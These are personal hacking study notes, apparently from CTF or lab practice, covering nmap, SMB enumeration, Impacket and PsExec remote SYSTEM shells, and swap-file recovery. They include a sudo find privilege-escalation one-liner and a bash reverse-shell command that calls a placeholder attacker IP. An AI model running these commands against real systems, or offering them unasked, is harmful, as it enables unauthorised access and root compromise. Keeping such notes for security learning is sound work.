 ```yaml
---
title: "Impacket and Random Stuff"
tags:
  - cs/hacking
programming-languages:
created: 2022-07-08
---
```

## Nmap
- Can use the `-Pn` switch to enumerate machines when packets are blocked by firewall.

## SMB
- Sever Message Block
- Usually port 445

```bash
smbclient -L {taget_IP} -U Administrator
```

## Impacket
It is a framework written in Python for working with network protocols. It is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB and MSRPC) the protol implementation itself. 

Contains dozens of amazing tools for interacting with Windows systems and applications, many of which are ideal for attacking Windows and Active Directory.

**Impacket** creates a remote service by uploading a randomly-named executable on the ADMIN$ share on the remote system and then register it as a Windows service.This will result in having an interactive shell available on the remote Windows system via TCP port 445 .  

**PsExec** is  a portable tool that lets you run processes remotely using any user's credentials.

It requires credentials for a user with local administrator privileges or higher since reading/writing to the ADMIN$ share is required. Once you successfully authenticate, it will drop you into a NT   AUTHORITY\SYSTEM shell.

## Reversed File
```bash
strings login.php.swp >> file.txt  
tac file.txt
```

## Privilege Escalation
Using the find command:

```bash
sudo find . -exec /bin/sh \; -quit
```

## Reverse Shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```

## More random stuff
List strings in the file:

```bash
strings -n 10 <filename>
```